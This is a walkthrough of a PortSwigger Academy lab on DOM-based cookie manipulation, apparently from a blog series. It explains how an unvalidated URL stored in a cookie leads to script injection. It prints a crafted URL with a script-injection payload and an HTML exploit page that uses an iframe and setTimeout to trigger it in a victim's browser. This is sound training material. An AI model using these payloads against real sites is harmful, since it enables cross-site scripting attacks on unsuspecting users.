









# Write-up: DOM-based cookie manipulation @ PortSwigger Academy



This write-up for the lab *DOM-based cookie manipulation* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Client-side topics → DOM-based vulnerabilities

Lab-Link: <https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description



## Steps

### Analysis

As usual, the first step is to analyze the functionality of the lab application, in this case, a shop website. After I browse through the page, I go check the HTML sources. One interesting piece of HTML can be found on the product pages:


This script stores the current page by URL in the cookie



From this moment onwards, the requests are sent with that cookie and the page contains a `Last viewed product` link at the top:





First I test whether the application verifies that the target is within its own domain:



Next, I check if I can break out of the link and inject arbitrary HTML and JavaScript:



Sure enough, the cookie value can be used to execute arbitrary JavaScript in the scope of the page.

### The theory

The vulnerable script takes the raw input from `window.location` without any validation. Above, I verified that I can break out of the link context. 

So I need to take a valid product URL and attach my payload in a way that the URL stays valid and produces a product page. For example, with an additional and completely fictional parameter:

```
https://0ae5007c0406e52ec028374700af0043.web-security-academy.net/product?productId=1&evil='><script>alert(document.domain)</script>
```

I test this URL in the browser and, sure enough, the `alert()` box shows up.

---
If I load that crafted URL in an iframe within a page I control, I can inject arbitrary JavaScript into the cookie. However, the initial display of the page just writes the cookie. It requires a reload to send the cookie to the server and include the JavaScript into the page. 

It is unlikely that my victim is inclined to help me with this, therefore I need a way to automate this.

My initial thought was to use a script within my malicious page that sleeps for some milliseconds and then reloads the iframe. However, after searching a bit I found that sleep is not as trivial in JavaScript as it is in other languages I know.

But I found the documentation of [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/setTimeout) which does what I want, albeit in an asynchronous way:



### The malicious page

My malicious page loads the vulnerable product details page within an iframe, with my payload added as a URL parameter. 

After a few milliseconds, the frame content gets redirected to the base URL of the shop, thus triggering the script.

```html
<iframe name="victim" id="victim"
    src="https://0ae5007c0406e52ec028374700af0043.web-security-academy.net/product?productId=1&'><script>print()</script>" 
></iframe>
<script>
setTimeout(() => {  document.getElementsByName('victim')[0].src = "https://0ae5007c0406e52ec028374700af0043.web-security-academy.net"}, 500);
</script>
```



After delivering the exploit to the victim, the lab updates to


---

If you found this article helpful, please give it a clap. To get notified of more write-ups, follow me on [GitHub](https://github.com/frank-leitner) or [medium](https://medium.com/@frank.leitner).
